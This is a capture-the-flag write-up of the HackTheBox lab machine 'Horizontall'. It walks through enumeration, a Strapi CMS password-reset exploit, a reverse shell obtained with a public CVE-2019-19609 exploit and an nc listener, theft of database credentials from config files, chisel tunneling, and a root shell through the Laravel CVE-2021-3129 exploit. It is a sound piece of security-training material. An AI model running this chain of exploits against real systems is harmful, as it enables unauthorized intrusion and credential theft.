```yaml
---
title: HTB Writeup - Horizontall
date: 2022-01-26T15:19:50.347Z
image: /images/1_jbwgsjvfciuozjdoclzcow.jpeg
tags:
  - hackthebox
  - htb
  - horizontall
  - tunneling
  - chisel
  - StrapiCMS
  - laravel
draft: true
---
```

**Machine Details**

**Name: Horizontall**

**IP address: 10.10.11.105**

**Difficulty: Easy**

**Points 20**

**Initial Enumeration**

Upon obtaining the IP address, 10.10.11.105, the first thing to do is to run a scan to figure out what ports and services are running on the machine. I did this using nmap and the result is shown below:

![](/images/2022-01-26_13-17.png)

The machine has two services running; SSH on port 22 and HTTP on port 80. The SSH version looks recent so I started my enumeration on the HTTP service running on port 80. From the result, the page redirects to http://horizontall.htb, so I proceeded to add this to my /etc/hosts file.

`10.10.11.105    horizontall.htb`

Visiting http://horizontall.htb in the browser, I was presented with the following page:

![](/images/2022-01-26_13-23.png)

I spent quite some time on this page trying to find a possible entry point but to no avail. I found that the web page using Vue.js. I ran a directory brute force using gobuster and obtained the following results:

`gobuster dir -u http://horizontall.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster.out`

![](/images/2022-01-26_13-27.png)

I also tried to run a directory search using various extensions but no positive result. Being on this stage for a while, I decided to run a full port scan on the address to see if other ports are running, but did not find any. Since I have an hostname, horizontall.htb, I decided to search for other subdomains on the hostname. For this purpose, I used wfuzz starting with the subdomains-top1million-5000.txt file from seclists, I did not obtain a result, I used the subdomains-top1million-20000.txt file, no result and finally I used the subdomains-top1million-110000.txt file and I found another subdomain.

`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.horizontall.htb" -u http://horizontall.htb --hc 301 -v`

I added this newly founded subdomain to the /etc/hosts file.

`10.10.11.105    horizontall.htb ********.horizontall.htb`

Visiting this subdomain on the browser, I was presented with a page that says "Welcome.".

![](/images/2022-01-26_16-34.png)

I performed directory search on this new subdomain using gobuster and I obtained some results:

`gobuster dir -u http://********.horizontall.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster.********.out`

![](/images/2022-01-26_14-07.png)

Visiting /admin on the browser, I was presented with a login page running Strapi CMS.

![](/images/2022-01-26_15-42_1.png)

I proceeded to searching Google for Strapi CMS and found that this CMS is vulnerable to a couple of remote code execution (RCE) vulnerabilities. One I found interesting is the unauthenticated exploit at https://www.exploit-db.com/exploit/50239. The exploit basically resets the admin password to a given value and provides a JWT token for the session. I downloaded and ran the exploit with the required parameter and was able to successfully reset the admin's password and obtain a JWT key and was able to login into the admin dashboard.

![](/images/2022-01-26_14-21.png)

`python3 50239.py http://********.horizontall.htb`

![](/images/2022-01-26_16-42.png)

![](/images/2022-01-26_15-42.png)

At this point, there are two options. The first is to send commands through the cmd shell obtained from the exploit above and wait for possible execution (blind RCE). The second option (which I followed) was to use another RCE exploit (authenticated) to gain a shell on the box. I found an exploit at https://github.com/diego-tella/CVE-2019-19609-EXPLOIT. The exploit takes a domain name or IP address, a JWT token, a listening host IP and a listening port. I ran the exploit and was able to obtain a reverse shell on my machine.

`python exploit.py -d http://********.horizontall.htb -jwt JWT -l 10.10.14.104 -p 9001`

Note: JWT is the token value obtained from 50239.py exploit. Also I had started a listener on my box on port 9001.

`nc -lvnp 9001`

![](/images/2022-01-26_14-54.png)

Now that I have a foothold, I started enumerating the box. I cat'ed the /etc/passwd file and noticed there is a user "developer". I visited the user's home directory and was able to read the user.txt file.

![](/images/2022-01-26_14-57.png)

After a while I went back to the directory I got a shell into, /opt/strapi/myapi and found a directory "config" that contains some environment configurations. In the development folder, I found mysql creds for the user "developer".

![](/images/2022-01-26_14-58.png)

I was able to access mysql with the creds but I obtained nothing much from the database. I tried to login on the box as user "developer" using the password I found but I got password authentication failure error.

After a while of enumeration, I checked the network connections using netstat and I noticed there is a service running on port 8000 locally on the box.

`netstat -antp`

![](/images/2022-01-26_14-59.png)

In order to access the service, I tunneled the port to my local machine on port 8080. I used chisel to do this (I had to move it to the box).

![](/images/2022-01-26_15-03.png)

 Accessing the port on my local machine, I got the page below:

![](/images/2022-01-26_15-03_1.png)

Searching for Laravel8 vulnerabilities on Google, I came across an interesting documentation on bookhacktricks - https://book.hacktricks.xyz/pentesting/pentesting-web/laravel. To verify, I checked that the Laravel setup is in debug mode.

![](/images/2022-01-26_15-04.png)

Down the page, there is link to a Laravel deserialization exploit. I used the exploit at https://github.com/nth347/CVE-2021-3129_exploit. Running the exploit with the required parameters, I was able to obtain a root shell on the box.

![](/images/2022-01-26_15-06.png)

And that's Horizontall!